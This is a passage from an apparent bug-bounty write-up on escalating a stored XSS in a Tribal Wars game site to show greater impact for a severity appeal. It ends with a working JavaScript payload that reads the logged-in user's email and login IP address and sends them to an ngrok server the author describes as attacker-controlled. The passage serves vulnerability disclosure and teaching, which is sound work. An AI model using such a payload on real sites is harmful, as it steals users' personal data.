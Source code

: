 <p align="center">
<img src="https://i.imgur.com/Zz5Xzab.png" width="500"/>
</p>

Once I had this, I immediately screenshotted everything and submitted it to the program - who's not afraid of the Duplicate monster right?

The report was triaged within the next day, but its Severity was lowered to a Medium - as I did not demonstrate any serious impact in my Proof-of-Concept. Fair enough, but the program did state I had the chance to appeal my case if a report was downgraded in Severity.

So let's demonstrate impact - it was time to get creative.

With the help of [@0xSmiley](https://twitter.com/Nuno97Lopes), we started to brainstorm some ideas. We had two goals:

* **User's Personal/Sensible Information Leak** - as the program classified this as a priority

* **Account Take-over** - because it's cool

### Exploiting the Stored XSS for Personal/Sensible Information Leak

In order to do this, we browsed around the user's profile for juicy information we could use for the Proof-of-Concept. We found that the application displays in the user's profile his e-mail address, and also logs and displays the user's IP information - should be enough.

<p align="center">
<img src="https://i.imgur.com/aWE0tya.png" width="500"/>
</p>


So we crafted our JS payload (pii.js) to perform these two requests and then exilftrate their results to our server.

```
// Obtain E-mail Information of the User
var a = new XMLHttpRequest();
a.open("GET", "https://xs1.tribalwars.cash/game.php?village=14&screen=settings&ajax=full_email_address", false);
a.withCredentials = true;
a.send();
var email=a.response;

// Obtain IP Information of the User
var c = new XMLHttpRequest();
c.open("GET","https://xs1.tribalwars.cash/game.php?village=14&screen=settings&mode=logins",false);
c.withCredentials = true;
c.send();
var r = /\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b/;
var ip_addr = c.response.match(r)[0];

// Exilftrate it to an attacker-controlled server
var b = new XMLHttpRequest();
b.open("GET", "https://d33fd5150904.ngrok.io/?email="+email+"&ip="+ip_addr);
b.send();
```
